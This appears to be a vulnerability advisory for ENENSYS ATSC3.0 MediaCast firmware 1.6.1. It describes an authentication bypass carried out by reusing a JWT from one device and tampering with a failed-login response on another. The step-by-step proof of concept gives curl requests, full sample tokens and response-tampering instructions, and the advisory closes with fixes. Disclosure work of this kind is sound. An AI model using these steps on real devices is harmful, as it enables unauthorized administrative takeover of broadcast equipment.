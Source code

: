 # ENENSYS ATSC3.0 MediaCast – Authentication Bypass via JWT Reuse

## Description

ENENSYS **ATSC3.0 MediaCast** firmware version **1.6.1** is vulnerable to an **authentication bypass** due to improper validation of JWT tokens across devices. An attacker can intercept a valid JWT from one device and reuse it to authenticate on a different device by modifying the HTTP response of a failed login attempt — gaining **full unauthorized administrative access**.

---

## Vendor Information

- **Vendor:** ENENSYS Technologies  
- **Vendor Homepage:** [https://www.enensys.com/](https://www.enensys.com/)

---

## Affected Products

- **Product:** ENENSYS ATSC3.0 MediaCast  
- **Firmware Version:** 1.6.1

---

## Vulnerable Endpoints

- `/api/auth/login`  
- `/` (root dashboard endpoint)

---

## Attack Type

- **Type:** Authentication Bypass  
- **Classification:** Improper Authentication / Response Tampering

---

## Impact

- **Severity:** Critical  
- **Summary:**  
  - JWT tokens from one device can be reused on other unrelated devices.  
  - Client-side tampering of server responses allows bypassing authentication.  
  - Admin access can be obtained across multiple devices using a single valid JWT.

---

## Affected Components

- **Session Management:** JWT tokens accepted across unrelated devices.  
- **Authentication Flow:** No proper verification of JWT audience or issuer.  
- **HTTP Response Validation:** Client-side manipulation allows bypassing login validation.

---

## Attack Vectors

- **Access Method:** Remote (via network access to at least one device)  
- **Authentication Requirement:** Valid login on any one device  
- **Exploit Complexity:** Medium (requires HTTP interception and modification)

---

## Proof of Concept (PoC)

### 1. Scenario Overview

**Device 1 (Attacker-owned)**  
- IP: `137.18.2.1`  
- Username: `admin`  
- Password: `passd1`

**Device 2 (Target device)**  
- IP: `208.129.3.4`  
- Username: `admin`  
- Password: `pworld2`

---

### 2. Exploit Steps

#### ✅ Step 1: Obtain JWT from Device 1

```bash
curl -X POST 'http://137.18.2.1/api/auth/login' \
  -H 'Content-Type: application/json' \
  --data-raw '{"username":"admin","password":"passd1"}'
```
#### Example Response:
```json
{"user":{"Id":"0503b6fa-57f5-52d4-bda6-d9ee32cdedd4","Login":"admin","Name":"Administrator","Email":"support@enensys.fr","Roles":[{"Name":"Administrator","Permissions":[]}],"Description":"Application administrator","Location":"FRANCE","Banned":false,"Active":true,"IsAdmin":true,"Authentication":"local","LastConnection":2851199455},"token":"eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXUyJ9.eyJzdWIiOnsiaWQiOiIwMzAzYjZmYS01N2Y1LTQyZDQtYmRhNS1kOWVlMzJjZGVkZDMiLCJyb2xlcyI6W3siSWQiOiI0ZWNiMWExMC1hYWU3LTQ4NDMtOWUwNC1hMmRlODRiNjBjZGIiLCJOYW1lIjoiQWRtaW5pc3RyYXRvciIsIkRlc2NyaXB0aW9uIjoiVGhlIGFkbWluaXN0cmF0b3Igcm9sZSBoYXMgZnVsbCByaWdodHMuIiwiSXNBZG1pbiI6dHJ1ZX1dfSwiaXNzIjoicmVzdC1pbnRlcmZhY2UiLCJpYXQiOjE3NDMxOTk1MzksImV4cCI6MTc4ZzI4Mjcz6X0.lHQNAl-Sb7u_WJp9t5gKOcyvi8W_NX-7e-EGaOV_t10aPF7qcCdINSu2dFCJvppX4JdYHizfEFIPyABVoZJzmmgvigYDaUZyAojECfQ7x7F6EHRp71qQ5IGxUhRAxfxZuFpo2l1KgXjyJ2wpwFA0FA8Ruf0W9zcAntpJVBqL-2M4Pahfn3zas4qgzNbBl7zrMfC3nx4RJs9tt4vUEr-JuH8sns1CNqr_VQBdMnEXfwmqQVkWSn-xGGJAj-OK9zgmJPy9emjg-ZlBcGWBrOewNV53dOFbh9xr7QItj2QrQfraRsvMLTsMD5RMq9A1n16GGzNZ2Mo274TN2t40qrv-bqOY98B8yB4tmPC0kGpw2eH1HbpRcFqUzXAAHu69q-89gKrtcncE3c6adjWRvIQIdBotjAhy0Ub_LrIH2742oNdrc7ef-6YNKVNJFQksGGZL1kazPVcPojh4W0CrhGAHHCDr7138y7v3NcJ9PXKQ1CsoYNacH0gkeBpFpdXj9vKyOxLXc1JTxlN0isuSVFHeTGRxQ027L99todsdPwIt5Sqpa05A5T-vaojx5UOGO2EXTcLn5NSiU1PtyvcSxVTecWkhsXq45jsv6ZF2gQkApONAp8IweK2eqkFfaHthy5GOSn_9hzS_BBmxilL0z-gukyLDPNq9nL0duklwbzummqs","refreshToken":"eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXUyJ9.eyJzdWIiOnsiaWQiOiIwMzAzYjZmYS01N2Y1LTQyZDQtYmRhNS1kOWVlMzJjZGVkZDMiLCJyb2xlcyI6W3siSWQiOiI0ZWNiMWExMC1hYWU3LTQ4NDMtOWUwNC1hMmRlODRiNjBjZGIiLCJOYW1lIjoiQWRtaW5pc3RyYXRvciIsIkRlc2NyaXB0aW9uIjoiVGhlIGFkbWluaXN0cmF0b3Igcm9sZSBoYXMgZnVsbCByaWdodHMuIiwiSXNBZG1pbiI6dHJ1ZX1dfSwiaXNzIjoicmVzdC1pbnRlcmZhY2UiLCJpYXQiOjE3NDMxOTk1MzksImV4cCI6MTc0MzIwMzEzOX0.IoiPNallJ21fm4Q1ZGXTJtgvez4X1MbsDpExXpXCvUy0tHtj04-Uq3AIgrylmrYDaUi3bOqru3es-NGrkekLdyxDsWgElvPeIs1cyUsUx8UO2AnMOchr8DShedb0WIX80qAK94LQaW8Pl543KLehR_j0donY9pE1fHKwIi1sN9VL_JQoVtBZ2pKAMU9nf6nWBxnkvBXXQPIoEJKFkyai4dIlvSEXuEFNqiOyAJtgkLqXVA5YCWMuv7tMKTsBIhU0BffVl04HR4WWQr6-X7Pj4CB2AvdBhLplDaZnAreVaTgVjEVQx0YMXKyYvDA29cIx1zsl8r_NQJNCP7kNcKAQrUVba5vc0ptK_V2bRE-wZ7oWhycoQb_5iWf0WTDR8VAPENrbCGyX8Q3F08ZJVNZ2ER3m8ixDQXBxAOJxzADfcVTP4TWukd4ZTsVKoMQqw0WhD69gfqq0A97KWQ9rOYM01-nndUmhoq49xhvnYlMGdxsAfc-VceNrRgI3n_BQqCOMNqTfD_VOPV-7I3lRkc3dv6TVTvgsURHoi7KE0TTqkzfXGHI36SEy0FW36o4LoQvUI9ECrETUctBQpWvQgoLLoCxjgLHC_vERjyOiO4xYDRS4KvC5duF0Ks-vGX6JfsBxfjx4-VwDHD6zvk5eenZDFELbL1wpA2_fz2aTSt_pgO5"}
```
Save the Response value for later reuse.

####  ✅ Step 2: Attempt Login on Device 2 with Invalid Credentials
```bash
curl -X POST 'http://208.129.3.4/api/auth/login' \
  -H 'Content-Type: application/json' \
  --data-raw '{"username":"admin","password":"wrongpass"}'
```
#### Expected Response:
```json
{
  "error": "Unauthorized"
}
```

#### ✅ Step 3: Intercept and Modify the Response
 Using tools like **Burp Suite** or **Mitmproxy**:
  * Change the **HTTP status code**: `401 Unauthorized` → `200 OK` 
  * Replace the **body** with the JWT from Device 1:
  ```json
{"user":{"Id":"0503b6fa-57f5-52d4-bda6-d9ee32cdedd4","Login":"admin","Name":"Administrator","Email":"support@enensys.fr","Roles":[{"Name":"Administrator","Permissions":[]}],"Description":"Application administrator","Location":"FRANCE","Banned":false,"Active":true,"IsAdmin":true,"Authentication":"local","LastConnection":2851199455},"token":"eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXUyJ9.eyJzdWIiOnsiaWQiOiIwMzAzYjZmYS01N2Y1LTQyZDQtYmRhNS1kOWVlMzJjZGVkZDMiLCJyb2xlcyI6W3siSWQiOiI0ZWNiMWExMC1hYWU3LTQ4NDMtOWUwNC1hMmRlODRiNjBjZGIiLCJOYW1lIjoiQWRtaW5pc3RyYXRvciIsIkRlc2NyaXB0aW9uIjoiVGhlIGFkbWluaXN0cmF0b3Igcm9sZSBoYXMgZnVsbCByaWdodHMuIiwiSXNBZG1pbiI6dHJ1ZX1dfSwiaXNzIjoicmVzdC1pbnRlcmZhY2UiLCJpYXQiOjE3NDMxOTk1MzksImV4cCI6MTc4ZzI4Mjcz6X0.lHQNAl-Sb7u_WJp9t5gKOcyvi8W_NX-7e-EGaOV_t10aPF7qcCdINSu2dFCJvppX4JdYHizfEFIPyABVoZJzmmgvigYDaUZyAojECfQ7x7F6EHRp71qQ5IGxUhRAxfxZuFpo2l1KgXjyJ2wpwFA0FA8Ruf0W9zcAntpJVBqL-2M4Pahfn3zas4qgzNbBl7zrMfC3nx4RJs9tt4vUEr-JuH8sns1CNqr_VQBdMnEXfwmqQVkWSn-xGGJAj-OK9zgmJPy9emjg-ZlBcGWBrOewNV53dOFbh9xr7QItj2QrQfraRsvMLTsMD5RMq9A1n16GGzNZ2Mo274TN2t40qrv-bqOY98B8yB4tmPC0kGpw2eH1HbpRcFqUzXAAHu69q-89gKrtcncE3c6adjWRvIQIdBotjAhy0Ub_LrIH2742oNdrc7ef-6YNKVNJFQksGGZL1kazPVcPojh4W0CrhGAHHCDr7138y7v3NcJ9PXKQ1CsoYNacH0gkeBpFpdXj9vKyOxLXc1JTxlN0isuSVFHeTGRxQ027L99todsdPwIt5Sqpa05A5T-vaojx5UOGO2EXTcLn5NSiU1PtyvcSxVTecWkhsXq45jsv6ZF2gQkApONAp8IweK2eqkFfaHthy5GOSn_9hzS_BBmxilL0z-gukyLDPNq9nL0duklwbzummqs","refreshToken":"eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXUyJ9.eyJzdWIiOnsiaWQiOiIwMzAzYjZmYS01N2Y1LTQyZDQtYmRhNS1kOWVlMzJjZGVkZDMiLCJyb2xlcyI6W3siSWQiOiI0ZWNiMWExMC1hYWU3LTQ4NDMtOWUwNC1hMmRlODRiNjBjZGIiLCJOYW1lIjoiQWRtaW5pc3RyYXRvciIsIkRlc2NyaXB0aW9uIjoiVGhlIGFkbWluaXN0cmF0b3Igcm9sZSBoYXMgZnVsbCByaWdodHMuIiwiSXNBZG1pbiI6dHJ1ZX1dfSwiaXNzIjoicmVzdC1pbnRlcmZhY2UiLCJpYXQiOjE3NDMxOTk1MzksImV4cCI6MTc0MzIwMzEzOX0.IoiPNallJ21fm4Q1ZGXTJtgvez4X1MbsDpExXpXCvUy0tHtj04-Uq3AIgrylmrYDaUi3bOqru3es-NGrkekLdyxDsWgElvPeIs1cyUsUx8UO2AnMOchr8DShedb0WIX80qAK94LQaW8Pl543KLehR_j0donY9pE1fHKwIi1sN9VL_JQoVtBZ2pKAMU9nf6nWBxnkvBXXQPIoEJKFkyai4dIlvSEXuEFNqiOyAJtgkLqXVA5YCWMuv7tMKTsBIhU0BffVl04HR4WWQr6-X7Pj4CB2AvdBhLplDaZnAreVaTgVjEVQx0YMXKyYvDA29cIx1zsl8r_NQJNCP7kNcKAQrUVba5vc0ptK_V2bRE-wZ7oWhycoQb_5iWf0WTDR8VAPENrbCGyX8Q3F08ZJVNZ2ER3m8ixDQXBxAOJxzADfcVTP4TWukd4ZTsVKoMQqw0WhD69gfqq0A97KWQ9rOYM01-nndUmhoq49xhvnYlMGdxsAfc-VceNrRgI3n_BQqCOMNqTfD_VOPV-7I3lRkc3dv6TVTvgsURHoi7KE0TTqkzfXGHI36SEy0FW36o4LoQvUI9ECrETUctBQpWvQgoLLoCxjgLHC_vERjyOiO4xYDRS4KvC5duF0Ks-vGX6JfsBxfjx4-VwDHD6zvk5eenZDFELbL1wpA2_fz2aTSt_pgO5"}
```
#### ✅ Step 4: Refresh the Browser or API Client
 The device now treats the session as authenticated. 
* * * 
#### ✅ Step 5: Confirm Admin Access
```bash 
curl -X GET 'http://208.129.3.4/api/admin' \
  -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9...'
```
**Example Output:**
```json
{
  "status": "authenticated",
  "user": "admin"
}
```
---

## **PoC Video**  

https://github.com/user-attachments/assets/d45ae9b0-7f64-446a-9579-dccdfb1aa7d6

---

## Vulnerability Details

### 📌 Vulnerability Type

**Authentication Bypass via JWT Reuse and HTTP Response Manipulation**

---

### 🧩 CWE Identifiers

- **CWE-287** – Improper Authentication  
- **CWE-345** – Insufficient Verification of Data Authenticity  
- **CWE-384** – Session Fixation

---

### 🚨 Impact Types

- **Account Takeover**  
- **Privilege Escalation**  
- **Remote Unauthorized Access**  
- **Configuration Manipulation**

---

## ✅ Suggested Fixes

- Bind JWT tokens to the originating device or IP address.  
- Validate the `aud` (Audience) and `iss` (Issuer) claims in JWTs.  
- Invalidate tokens upon login attempts from unfamiliar sources.  
- Enforce server-side authentication validation — avoid relying on client-side response handling.  
- Prevent clients from modifying HTTP response codes or payloads.

---

## 🛡️ Mitigation & Workarounds

- Implement strong API-level validation of JWT issuer and expiration.  
- Monitor for reuse of JWTs across different IPs or devices.  
- Apply Web Application Firewall (WAF) rules to detect and block abnormal login behavior.
